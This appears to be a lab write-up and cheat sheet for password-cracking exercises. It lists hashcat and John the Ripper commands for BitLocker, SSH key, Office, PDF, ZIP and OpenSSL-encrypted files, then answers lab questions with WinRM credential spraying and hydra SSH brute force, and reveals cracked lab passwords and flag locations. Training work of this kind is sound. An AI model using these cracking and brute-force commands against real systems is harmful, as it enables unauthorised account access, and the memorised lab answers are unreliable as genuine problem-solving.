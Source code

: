 |`hashcat -m 22100 backup.hash /opt/useful/seclists/Passwords/Leaked-Databases/rockyou.txt -o backup.cracked`|Uses Hashcat to crack the extracted BitLocker hashes using a wordlist and outputs the cracked hashes into a file called backup.cracked.|
|`python3 ssh2john.py SSH.private > ssh.hash`|Runs ssh2john.py script to generate hashes for the SSH keys in the SSH.private file, then redirects the hashes to a file called ssh.hash.|
|`john ssh.hash --show`|Uses John to attempt to crack the hashes in the ssh.hash file, then outputs the results in the terminal.|
|`office2john.py Protected.docx > protected-docx.hash`|Runs Office2john.py against a protected .docx file and converts it to a hash stored in a file called protected-docx.hash.|
|`john --wordlist=rockyou.txt protected-docx.hash`|Uses John in conjunction with the wordlist rockyou.txt to crack the hash protected-docx.hash.|
|`pdf2john.pl PDF.pdf > pdf.hash`|Runs Pdf2john.pl script to convert a pdf file to a pdf has to be cracked.|
|`john --wordlist=rockyou.txt pdf.hash`|Runs John in conjunction with a wordlist to crack a pdf hash.|
|`zip2john ZIP.zip > zip.hash`|Runs Zip2john against a zip file to generate a hash, then adds that hash to a file called zip.hash.|
|`john --wordlist=rockyou.txt zip.hash`|Uses John in conjunction with a wordlist to crack the hashes contained in zip.hash.|
|`bitlocker2john -i Backup.vhd > backup.hashes`|Uses Bitlocker2john script to extract hashes from a VHD file and directs the output to a file called backup.hashes.|
|`file GZIP.gzip`|Uses the Linux-based file tool to gather file format information.|
|`for i in $(cat rockyou.txt);do openssl enc -aes-256-cbc -d -in GZIP.gzip -k $i 2>/dev/null \| tar xz;done`|Script that runs a for-loop to extract files from an archive.|

# Questions & Answers
### Network Services

1.  Find the user for the WinRM service and crack their password. Then, when you log in, you will find the flag in a file there. Submit the flag you found as the answer.

First downloaded the zip file from resources in the top of htb academy page then unzip them
```c
crackmapexec winrm <ip> -u user.list -p password.list
```
Found password and user: john:november so we need to log in:
```c
crackmapexec winrm <ip> -u user.list -p password.list
```
After logging in go to desktop of the user:
```c
*Evil-WinRM* PS C:\Users\john> cd Desktop
*Evil-WinRM* PS C:\Users\john\Desktop> dir

    Directory: C:\Users\john\Desktop

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         1/5/2022   8:13 AM             18 flag.txt
```

2. Find the user for the SSH service and crack their password. Then, when you log in, you will find the flag in a file there. Submit the flag you found as the answer.
```c
hydra -L username.list -P password.list ssh://10.129.212.54     
[22][ssh] host: 10.129.212.54   login: dennis   password: rockstar
```
